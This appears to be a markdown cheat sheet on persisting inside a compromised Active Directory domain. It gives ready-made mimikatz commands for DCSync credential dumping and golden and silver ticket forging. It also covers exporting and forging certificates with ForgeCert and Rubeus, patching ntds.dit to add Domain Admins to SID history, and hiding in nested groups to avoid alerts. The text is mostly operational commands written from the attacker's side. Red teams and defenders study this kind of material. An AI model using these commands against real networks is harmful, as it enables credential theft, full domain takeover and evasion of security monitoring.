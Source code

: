 
# #Persistence with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persistence with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persistence with Certificates:
  - **view the Stored certificates on the DC**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine
  ```
  - **patch memory to make private keys exportable**
  ```
  mimikatz # crypto::capi
  mimikatz # crypto::cng
  ```
  - **Use mimikatz to Export the certificates:**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine /export
  # now we have PFX or DER file
  ```
  - **if we have the private key and root CA certificate, we can forge a Client Authenticate certificate for any user we want.**
  ```
  ForgeCert.exe --CaCertPath Filename.pfx --CaCertPassword <filepassword> --Subject CN=User --SubjectAltName Administrator@<FQDN> --NewCertPath fullAdmin.pfx --NewCertPassword Password123
  ```
  - **We can use Rubeus to request a TGT using the certificate**
  ```
    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certFile> /password:<certFile-password> /outfile: /domain:<DomainName> /dc:<DC-IP>
  ```
  - **Use mimikatz to use TGT to Authenticate to LogonServer**
  ```
  mimikatz # kerberos::ptt administrator.kirbi
  mimikatz # exit
  # Done! we have the session.
  ```
  
  # #Persistence with SID History:
  ## Notes:
      - Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group
      - but our account can simply be a normal user account with membership only to the Domain Users group.
  ### operations:
  -  let's make sure that our low-privilege user does not currently have any information in their SID history
      ```ps1
        Get-ADUser <your ad username> -properties sidhistory,memberof
      ```
  - Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
      ```ps1
        Get-ADGroup "Domain Admins"
      ```      
  - we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file
      ```ps1
        Stop-Service -Name ntds -force
        Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
        Start-Service -Name ntds
      ```
      
  # #Persistence with Group Memebership (Nested Groups):
  ## Notes:
  - Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
  - It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence
  - This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group
  - Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.
  
    
      
      
      
      
      
      
      
  
  
